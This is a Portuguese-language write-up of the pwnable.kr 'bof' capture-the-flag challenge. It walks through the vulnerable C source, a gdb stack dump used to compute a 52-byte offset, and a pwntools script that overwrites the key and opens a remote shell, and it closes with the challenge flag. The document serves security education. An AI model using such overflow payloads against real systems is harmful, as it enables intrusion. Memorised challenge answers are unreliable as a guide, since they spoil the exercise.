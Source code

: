 # Duckware Team - bof (pwnable)

###### Solved by @0xpics and @JoaoPedroPiceli

> This CTF is about pwn, buffer overflow

## Sobre o desafio

O objetivo deste desafio é proporcionar ao usuário uma compreensão profunda dos princípios de buffer overflow, capacitando-o a identificar e explorar vulnerabilidades por meio da análise de código. Além disso, o desafio visa fortalecer a habilidade de compreender o funcionamento de cada função do código, utilizando ferramentas como um debugger para uma investigação detalhada e prática.

## O Desafio

Para realizarmos esse desafio devemos executar um arquivo que o site nos provém, `overflowme`, além disso o site também nos deu uma porta nc 'pwnable.kr',9000

Ao executarmos recebemos a seginte mensagem: *"overflow me : "*. Testando inputs de diversos tamanhos sempre recebemos a mesma resposta: *Nah..*

Sem mais o que fazer, vamos para a análise do código.

## O Código

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Para explorar o buffer overflow neste código, o objetivo é sobrescrever o valor da variável key na função func para que ela se torne 0xcafebabe. Isso permitirá executar system("/bin/sh") e obter um shell.


* A função func tem um buffer overflowme de 32 bytes.
* A função gets é usada para ler a entrada do usuário, o que é perigoso porque não verifica o tamanho da entrada, permitindo um buffer overflow.
* O valor de key é comparado com 0xcafebabe. Se for igual, um shell é executado.

Para relaizarmos o buffer precisaremos construir um payload, ele será construido da seguinte maneira:

`payload = "A" * offset + "endereço de memória`

## Construindo o payload

Para conseguirmos o endereço de memória nos iremos converter 0xcafebabe para seu formato little-endian. Nós fazemos isso pois a shell que queremos acessar só é acessível através do valor da key 0xcafebabe assim como indicado no código, sua conversão para little-endian se dá pelo fato que a maioria dos sistemas baseados em arquiteturas x86/x86-64 armazenam valores multi-byte na memória no formato little-endian, assim sua conversão é necessária para que o sistema a interprete corretamente.

`payload = "A" * offset + "\xbe\xba\xfe\xca"`

Agora calcularemos o offset.

Para isso precisamos achar a função `0xdeadbeef` através da ferramenta `gdb`

Para facilitar a compressão de como achar a função, irei mostrar sequência de ações que deve ser tomada no gdb.

```
(kali㉿kali)-[~/Downloads]
└─$ gdb ./bof
GNU gdb (Debian 16.2-1) 16.2
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./bof...
(No debugging symbols found in ./bof)
(gdb) break func
Breakpoint 1 at 0x632
(gdb) run
Starting program: /home/kali/Downloads/bof 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x56555632 in func ()
(gdb) x/40wx $esp
0xffffcea0:     0x00000000      0xffffd18b      0x00000002      0xffffced8
0xffffceb0:     0xf7ffcfec      0x00000000      0x00000014      0x00000000
0xffffcec0:     0xf7fc6570      0xf7fc6000      0x00000000      0x00000000
0xffffced0:     0x00000000      0x00000000      0xffffffff      0xf7d79994
0xffffcee0:     0xf7fc0400      0x00000000      0xffffcf08      0x5655569f
0xffffcef0:     0xdeadbeef      0x00000000      0x00000000      0x00000000
0xffffcf00:     0x00000000      0x00000000      0x00000000      0xf7d8cd43
0xffffcf10:     0x00000001      0xffffcfc4      0xffffcfcc      0xffffcf30
0xffffcf20:     0xf7f9de14      0x5655568a      0x00000001      0xffffcfc4
0xffffcf30:     0xf7f9de14      0x565556b0      0xf7ffcb60      0x00000000
(gdb)
```

1. Identificando o buffer `overflowme`

O buffer `overflowme` é declarado como `char overflowme[32]` na função `func`. Ele será alocado na pilha. No despejo da pilha, o buffer começa no endereço `0xffffcebc`.

2. Identificando o valor de key

No despejo da pilha, o valor `0xdeadbeef` (que é o valor de key) aparece em `0xffffcef0`:
Copy

`0xffffcef0:     0xdeadbeef      0x00000000      0x00000000      0x00000000`

Portanto, `key` está localizado em `0xffffcef0`.

3. Calculando o offset

O buffer `overflowme` começa em `0xffffcebc`. O valor de key está em `0xffffcef0`. Para calcular o offset, subtraímos os endereços:

`0xffffcef0 - 0xffffcebc = 0x34 (52 em decimal)`

Portanto, o buffer `overflowme` tem 32 bytes, mas o valor de `key` está a 52 bytes do início do buffer. Isso significa que há um espaço adicional de 20 bytes entre o final do buffer e o valor de key.

4. Criando o payload

Para sobrescrever key com 0xcafebabe, precisamos preencher o buffer overflowme (32 bytes) e os 20 bytes adicionais, totalizando 52 bytes.

O payload será:

`payload = "A" * 52 + "\xbe\xba\xfe\xca"`

## Solução

Existem várias maneiras para executar esse payload, porém a que usaremos aqui será através de um script simples de python.

```
from pwn import *

payload = 'A' * 52 + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```

1.O script cria um payload que explora o buffer overflow no servidor.

2.Conecta-se ao servidor pwnable.kr na porta 9000.

3.Envia o payload para o servidor.

4.Se o payload estiver correto, o servidor executará system("/bin/sh"), e o script entrará em modo interativo, permitindo que você execute comandos no servidor.

Quando executamos esse script conseguirmos ter acesso a shell, explorando um pouco conseguimos achar o arquivo da flag, que quando damos um cat nela nos dá essa flag:

>daddy, I just pwned a buFFer :)
